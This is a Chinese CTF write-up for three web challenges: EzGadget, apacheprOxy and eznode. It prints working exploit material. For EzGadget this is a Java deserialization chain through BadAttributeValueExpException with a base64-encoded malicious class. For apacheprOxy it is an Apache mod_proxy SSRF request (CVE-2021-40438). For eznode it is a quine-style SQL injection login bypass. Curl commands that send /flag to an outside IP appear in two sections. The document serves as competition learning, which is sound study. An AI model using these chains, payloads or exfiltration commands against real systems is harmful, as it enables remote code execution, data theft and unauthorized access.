# EzGadget

给了源码，IDEA打开看看，有个反序列化的点：

```java
    @ResponseBody
    @RequestMapping({"/readobject"})
    public String unser(@RequestParam(name = "data",required = true) String data, Model model) throws Exception {
        byte[] b = Tools.base64Decode(data);
        InputStream inputStream = new ByteArrayInputStream(b);
        ObjectInputStream objectInputStream = new ObjectInputStream(inputStream);
        String name = objectInputStream.readUTF();
        int year = objectInputStream.readInt();
        if (name.equals("gadgets") && year == 2021) {
            objectInputStream.readObject();
        }

        return "welcome bro.";
    }
```

`ToStringBean`这里：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.ezgame.ctf.tools;

import java.io.Serializable;

public class ToStringBean extends ClassLoader implements Serializable {
    private byte[] ClassByte;

    public ToStringBean() {
    }

    public String toString() {
        ToStringBean toStringBean = new ToStringBean();
        Class clazz = toStringBean.defineClass((String)null, this.ClassByte, 0, this.ClassByte.length);
        Object var3 = null;

        try {
            var3 = clazz.newInstance();
        } catch (InstantiationException var5) {
            var5.printStackTrace();
        } catch (IllegalAccessException var6) {
            var6.printStackTrace();
        }

        return "enjoy it.";
    }
}
```

`toString()`这里调用了`defineClass`能动态加载字节码，但是得想办法调用这个`toString`。

想到CC5的利用中的`BadAttributeValueExpException`反序列的时候利用到了`toString`，所以构造一波即可。


恶意类，我这里把flag外带出来：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Evil extends AbstractTranslet
{
            @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    public Evil() {
        try {
        String[] command = { "/bin/sh", "-c", "curl http://121.5.169.223:39767/ -F file=@/flag" };
            Runtime.getRuntime().exec(command);
            //Runtime.getRuntime().exec("sh /tmp/feng");
        }
        catch (Exception ex) {
            ex.printStackTrace();
        }
    }

    public static void main(final String[] array) {
    }
}

```

```shell
root@VM-0-6-ubuntu:~/java/evil# cat Evil.class|base64
yv66vgAAADQALwoACwAcBwAdCAAeCAAfCAAgCgAhACIKACEAIwcAJAoACAAlBwAmBwAnAQAJdHJh
bnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tM
Y29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25I
YW5kbGVyOylWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACkV4Y2VwdGlvbnMHACgBAKYoTGNv
bS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2Fw
YWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hl
L3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAGPGluaXQ+
AQADKClWAQANU3RhY2tNYXBUYWJsZQcAJgcAJAEABG1haW4BABYoW0xqYXZhL2xhbmcvU3RyaW5n
OylWAQAKU291cmNlRmlsZQEACUV2aWwuamF2YQwAEwAUAQAQamF2YS9sYW5nL1N0cmluZwEABy9i
aW4vc2gBAAItYwEAL2N1cmwgaHR0cDovLzEyMS41LjE2OS4yMjM6Mzk3NjcvIC1GIGZpbGU9QC9m
bGFnBwApDAAqACsMACwALQEAE2phdmEvbGFuZy9FeGNlcHRpb24MAC4AFAEABEV2aWwBAEBjb20v
c3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5z
bGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhj
ZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1
bnRpbWU7AQAEZXhlYwEAKChbTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsB
AA9wcmludFN0YWNrVHJhY2UAIQAKAAsAAAAAAAQAAQAMAA0AAgAOAAAAGQAAAAMAAAABsQAAAAEA
DwAAAAYAAQAAAAwAEAAAAAQAAQARAAEADAASAAIADgAAABkAAAAEAAAAAbEAAAABAA8AAAAGAAEA
AAARABAAAAAEAAEAEQABABMAFAABAA4AAAB3AAQAAgAAACkqtwABBr0AAlkDEgNTWQQSBFNZBRIF
U0y4AAYrtgAHV6cACEwrtgAJsQABAAQAIAAjAAgAAgAPAAAAHgAHAAAAEgAEABQAGAAVACAAGgAj
ABgAJAAZACgAGwAVAAAAEAAC/wAjAAEHABYAAQcAFwQACQAYABkAAQAOAAAAGQAAAAEAAAABsQAA
AAEADwAAAAYAAQAAAB4AAQAaAAAAAgAb

```


然后构造一波POC：

```java
import com.ezgame.ctf.tools.ToStringBean;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;

public class Test {
    public static void main(String[] args) throws Exception{
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class clazz = Class.forName("javax.management.BadAttributeValueExpException");
        Field field = clazz.getDeclaredField("val");
        field.setAccessible(true);
        ToStringBean toStringBean = new ToStringBean();
        field.set(badAttributeValueExpException,toStringBean);
        byte[] classByte = Base64.getDecoder().decode("yv66vgAAADQALwoACwAcBwAdCAAeCAAfCAAgCgAhACIKACEAIwcAJAoACAAlBwAmBwAnAQAJdHJh" +
                "bnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tM" +
                "Y29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25I" +
                "YW5kbGVyOylWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACkV4Y2VwdGlvbnMHACgBAKYoTGNv" +
                "bS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2Fw" +
                "YWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hl" +
                "L3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAGPGluaXQ+" +
                "AQADKClWAQANU3RhY2tNYXBUYWJsZQcAJgcAJAEABG1haW4BABYoW0xqYXZhL2xhbmcvU3RyaW5n" +
                "OylWAQAKU291cmNlRmlsZQEACUV2aWwuamF2YQwAEwAUAQAQamF2YS9sYW5nL1N0cmluZwEABy9i" +
                "aW4vc2gBAAItYwEAL2N1cmwgaHR0cDovLzEyMS41LjE2OS4yMjM6Mzk3NjcvIC1GIGZpbGU9QC9m" +
                "bGFnBwApDAAqACsMACwALQEAE2phdmEvbGFuZy9FeGNlcHRpb24MAC4AFAEABEV2aWwBAEBjb20v" +
                "c3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5z" +
                "bGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhj" +
                "ZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1" +
                "bnRpbWU7AQAEZXhlYwEAKChbTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsB" +
                "AA9wcmludFN0YWNrVHJhY2UAIQAKAAsAAAAAAAQAAQAMAA0AAgAOAAAAGQAAAAMAAAABsQAAAAEA" +
                "DwAAAAYAAQAAAAwAEAAAAAQAAQARAAEADAASAAIADgAAABkAAAAEAAAAAbEAAAABAA8AAAAGAAEA" +
                "AAARABAAAAAEAAEAEQABABMAFAABAA4AAAB3AAQAAgAAACkqtwABBr0AAlkDEgNTWQQSBFNZBRIF" +
                "U0y4AAYrtgAHV6cACEwrtgAJsQABAAQAIAAjAAgAAgAPAAAAHgAHAAAAEgAEABQAGAAVACAAGgAj" +
                "ABgAJAAZACgAGwAVAAAAEAAC/wAjAAEHABYAAQcAFwQACQAYABkAAQAOAAAAGQAAAAEAAAABsQAA" +
                "AAEADwAAAAYAAQAAAB4AAQAaAAAAAgAb");
        clazz = Class.forName("com.ezgame.ctf.tools.ToStringBean");
        field = clazz.getDeclaredField("ClassByte");
        field.setAccessible(true);
        field.set(toStringBean,classByte);
        
        ByteArrayOutputStream bout = new ByteArrayOutputStream();
        ObjectOutputStream oout = new ObjectOutputStream(bout);
        oout.writeUTF("gadgets");
        oout.writeInt(2021);
        oout.writeObject(badAttributeValueExpException);
        byte[] bytes = bout.toByteArray();
        byte[] encode = Base64.getEncoder().encode(bytes);
        System.out.println(new String(encode));
    }

}

```

打：


得到flag：


# apacheprOxy

吃了个饭就打通了。

参考文章：https://www.leavesongs.com/PENETRATION/apache-mod-proxy-ssrf-cve-2021-40438.html

SSRF打内网的weblogic，就是这环境贼垃圾，死活打不通，多打几次就出了：

```http
http://47.104.181.226:7410/?unix:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA|http://172.24.0.2:7001/
```

flag还是拿curl外带出来：

```shell
curl http://121.5.169.223:39656/ -F file=@/flag
```





而且串payload，我和学长那边都nc收到别人的payload。可能运气比较好就出了，拿了一血：


# eznode

**一血**。

首先是个登录：

```js
router.post('/', async function (req, res, next) {
	let username = req.body.username;
	let password = req.body.password;
	if (check(username) && check(password)) {
		let sql = `select * from users where username='${username}' and password = '${password}'`;
		const result = await select(sql)
			.then(close())
			.catch(err => { console.log(err); });
		// console.log(result);
		if(result){
			if (result.username == username && password == result.password) {
				res.cookie('token', result, { signed: true });
				res.send("yes");
			} else {
				res.send("username or password error")
			}
		} else{
			res.send('no')
		}
	} else {
		res.send("Fak OFF HACKER");
	}
});
```


``check`这个waf很容易绕了，拿数组绕。

然后就是这个：

```js
if (result.username == username && password == result.password) {
```

第五空间考的了，直接拿第五空间的payload拿过来改一改：

```http
POST / HTTP/1.1
Host: eci-2zeggoejwozozko2g4xu.cloudeci1.ichunqiu.com:8888
Content-Length: 389
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://eci-2zeggoejwozozko2g4xu.cloudeci1.ichunqiu.com:8888
Referer: http://eci-2zeggoejwozozko2g4xu.cloudeci1.ichunqiu.com:8888/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __jsluid_h=0ac3650127bce0646f3b72bc382255da
Connection: close

username[]=admin&password[]='%2F**%2Funion%2F**%2FSELECT%2F**%2F'admin'%2CREPLACE(REPLACE('%22%2F**%2Funion%2F**%2FSELECT%2F**%2F%22admin%22%2CREPLACE(REPLACE(%22%3F%22%2CCHAR(34)%2CCHAR(39))%2CCHAR(63)%2C%22%3F%22)%23'%2CCHAR(34)%2CCHAR(39))%2CCHAR(63)%2C'%22%2F**%2Funion%2F**%2FSELECT%2F**%2F%22admin%22%2CREPLACE(REPLACE(%22%3F%22%2CCHAR(34)%2CCHAR(39))%2CCHAR(63)%2C%22%3F%22)%23')%23
```

登录成功后有2个能干的：

```js
router.post('/admin', checkLogin, function (req, res, next) {
	var name = req.body.name ? req.body.name : "admin";
	res.render('admin', name)
});

// 还未上线..., checkLogin
router.post('/upload', checkLogin, upload.any(), function (req, res, next) {

	fs.readFile(req.files[0].path, function (err, data) {  
			if (err) {
				console.log(err);
			} else {
				response = {
					message: 'File uploaded successfully',
					filename: req.files[0].path
				};
			res.end(JSON.stringify(response));
		}
	});
})
```

文件上传是这样处理：

```js
const storage = multer.diskStorage({
	destination: function (req, file, cb) {
	  cb(null, './upload_tmp')
	},
	filename: function (req, file, cb) {
	  cb(null,  Date.now()+'.jpg')
	}
  })
```

没啥用。（是我错了）


